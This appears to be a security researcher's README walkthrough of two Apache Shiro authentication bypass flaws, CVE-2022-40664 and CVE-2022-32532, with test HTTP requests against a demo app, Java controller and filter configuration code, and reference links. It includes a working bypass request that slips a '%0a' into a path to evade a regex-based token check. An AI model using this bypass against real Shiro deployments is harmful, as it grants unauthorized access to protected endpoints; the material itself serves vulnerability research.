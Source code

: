 # CVE-2022-40664 research walkthrough

> Apache Shiro before 1.10.0, Authentication Bypass Vulnerability in Shiro when forwarding or including via RequestDispatcher.

https://media.githubusercontent.com/media/Bin4xin/bigger-than-bigger/master/assets/CVE-2022-40664/%E5%B1%8F%E5%B9%95%E5%BD%95%E5%88%B62022-10-25%2014.52.44.mov


## walkthrough

```http request
GET /admin/auth_pass HTTP/1.1
```

```http request
GET /admin/auth HTTP/1.1
```

```http request
GET /admin/auth HTTP/1.1
Token: 4ra1n
```

## exchange redirect from forward ?

```java
    @RequestMapping("/admin/{value}")
    public String CVE_2022_40664_bypass(@PathVariable String value, HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        System.out.println("=========== /admin" +((HttpServletRequest)request).getRequestURI()+ "/ ===========");
		//        request.getRequestDispatcher("/admin/auth").forward(request, response);
		//        return "forward:"+((HttpServletRequest)request).getRequestURI();
        response.sendRedirect("/admin/auth");
        return ("Redirect:/admin/auth");
    }
```

## shiro 1.10.0

```java
    @Bean
    public MyShiroFilterFactoryBean filterRegBean(SecurityManager securityManager) throws Exception {
        // CVE-2022-40664
        // fixed conf
        ShiroFilterConfiguration conf = new ShiroFilterConfiguration();
        conf.setFilterOncePerRequest(false);

        ShiroFilterFactoryBean shiroFilterFactoryBean = new ShiroFilterFactoryBean();
        shiroFilterFactoryBean.setSecurityManager(securityManager);
        shiroFilterFactoryBean.setShiroFilterConfiguration(conf);
        AbstractShiroFilter filter = shiroFilterFactoryBean.getObject();

        MyShiroFilterFactoryBean reg = new MyShiroFilterFactoryBean();
        reg.setFilter(filter);
        reg.addUrlPattern("/*");
        reg.setName("shiroFilter");
        reg.setSecurityManager(securityManager);
        reg.setDispatcherTypes(EnumSet.allOf(DispatcherType.class));
        //fixed conf end.
        return reg;
```

Do not work.

## reference

- [^1] [Lay0us1/CVE-2022-32532](https://github.com/Lay0us1/CVE-2022-32532){:target="_blank"}
- [^2] [defining a bean named 'shiroFilterFactoryBean'](https://blog.csdn.net/hanzl1/article/details/104228376){:target="_blank"}
- [^3] [CVE-2022-40664](https://juejin.cn/post/7154702383720136718#heading-0){:target="_blank"}
- [^4] [Shiro 1.7和1.10对于forward请求的处理](https://blog.csdn.net/xyjy11/article/details/127324055){:target="_blank"}
- [^5] [SpringBoot整合shiro-spring-boot-web-starter](https://blog.csdn.net/liu320yj/article/details/109090797){:target="_blank"}
- [^6] [[ANNOUNCE][CVE-2022-32532] Apache Shiro 1.9.1 released](https://lists.apache.org/thread/y8260dw8vbm99oq7zv6y3mzn5ovk90xh){:target="_blank"}

# [Lay0us1/CVE-2022-32532](https://github.com/Lay0us1/CVE-2022-32532)

## about

This is a demo project, which only shows one of the conditions for exploiting this vulnerability (CVE-2022-32532). 

In fact, there are more ways to exploit it, as long as developers use `RegExPatternMatcher`, there will be a possible bypass vulnerability.

## introduce

Token request header verification is required under the current configuration, otherwise you do not have permission to access the interface under `/permit`

This request can succeed
```http request
GET /permit/any HTTP/1.1
Token: 4ra1n
```

Access is not allowed when there is no token request header
```http request
GET /permit/any HTTP/1.1
```

It can be bypassed in a simple way in special but common configurations
```http request
GET /permit/a%0any HTTP/1.1
```

## reference

https://lists.apache.org/thread/y8260dw8vbm99oq7zv6y3mzn5ovk90xh

This vulnerability is similar to Spring-Security [CVE-2022-22978](https://tanzu.vmware.com/security/cve-2022-22978)

Thanks to [bdemers](https://github.com/bdemers) (Apache Shiro PMC) and [chybeta](https://github.com/chybeta) (Security Researcher)
